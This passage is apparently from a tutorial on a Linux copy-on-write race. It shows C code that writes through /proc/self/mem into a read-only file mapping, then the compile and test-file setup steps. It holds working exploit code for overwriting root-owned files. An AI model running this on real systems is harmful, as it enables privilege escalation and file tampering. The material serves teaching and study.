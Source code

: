 ```c
  // open memory file descriptor in read-write mode
  int f = open("/proc/self/mem", O_RDWR);
  
  while(1) {
    // find the offset we are interested in writing
    lseek(f, (uintptr_t) map + CONTENT_OFFSET, SEEK_SET);
    // write new_contents starting at the current offset
    write(f, new_content, strlen(new_content));
  }
}

int main()
{
  // get the file descriptor, read-only mode
  int f = open(CONTENT_FILE, O_RDONLY);
  // get file status (we need size)
  fstat(f, &st);
  
  // map file to memory, in read-only and private mode
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

  // create threads
  pthread_create(&write_thread, NULL, write_worker, NULL);
  pthread_create(&madvise_thread, NULL, madvise_worker, NULL);

  // wait for the threads to finish
  pthread_join(write_thread, NULL);
  pthread_join(madvise_thread, NULL);

  return 0;
}
```

The code should be self-explanatory so let's run it right away.  We will analyze the program on thread-level later.

Compile this file with:

```bash
$ gcc -o racing racing.c -lpthread
```

You will also need a testing file. To make file truly read-only, create the file as root.

```bash
$ su -c "echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa > test"
```
Now we can check that the file `test` is truly read only.

```bash
$ ls -l test
-rw-r--r-- 1 root root 29 Nov 17 02:24 test
```
We can also attempt to write into it as a regular user.

